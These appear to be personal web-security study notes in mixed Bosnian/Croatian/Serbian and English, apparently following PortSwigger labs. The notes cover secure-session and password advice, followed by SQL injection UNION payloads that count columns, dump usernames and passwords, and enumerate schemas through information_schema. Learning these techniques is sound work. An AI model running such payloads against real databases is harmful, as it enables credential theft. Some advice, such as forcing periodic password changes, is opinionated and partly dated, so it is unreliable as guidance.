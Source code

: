 
PREDOBROOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO:
https://portswigger.net/web-security


Ekstra knjiga za identity management:  
Keycloak - Identity and Access Management for Modern Applications: Harness the power of Keycloak, OpenID Connect, and OAuth 2.0 protocols to secure applications

## HTTPS
Always use HTTPS protocol.  
This way you avoid lots of troubles with man-in-the-middle attack.  


## Predictability
Bilo šta što je predvidivo: username, password, session_id, tokeni ->
je INSECURE !!!!!!!!

Thus -> SecureRandom()


## URLs

Don't send *sensitive data* in URLs:
- username/password
- security token

Why?
- they can be logged in user's history, server logs, proxies etc.


## Passwords

Reset passworda je MUST HAVE:
- ako user zaboravi pwd
- periodično NATJERAT usera da promijeni password
- ako je neko skonto password, za 7 dana neće biti validan -> stonks


Slanje passworda na mail -> NO
Predvidivi generisani passwordi -> NO


## Usernames
Nejedinstveni username -> NO

------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
## JWTs are bullshit (for sessions)

- Logout? -> NO
- Change roles -> NO (fuck you, this is STILL a valid token.. :) )


------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
HACKING stuff
------------------------------------------------------------------------------------------------------------
# SQL injection

## UNION SELECT napad

### Skontaš broj kolona
```sql
' ORDER+BY+3--
```
ili
```sql
'+UNION+SELECT+NULL,NULL--
```
(kod Oracle MORA 'SELECT .. FROM DUAL')
dok ne potrefiš broj kolona...

### Skontaš koja kolona je string (obično)

```sql
' UNION SELECT NULL,NULL,'a',NULL--
```

dok ne potrefiš koja kolona paše.. :)

### UNION SELECT
```sql
' UNION SELECT username, password FROM users--
```

### Browsing the db schema

'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
--> users_lqlezz npr

'+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_lqlezz'--
--> username_jyfedi,password_fxqtrq

' UNION SELECT username_jyfedi,password_fxqtrq FROM users_lqlezz--

ORACLE:
all_tables i all_tab_columns


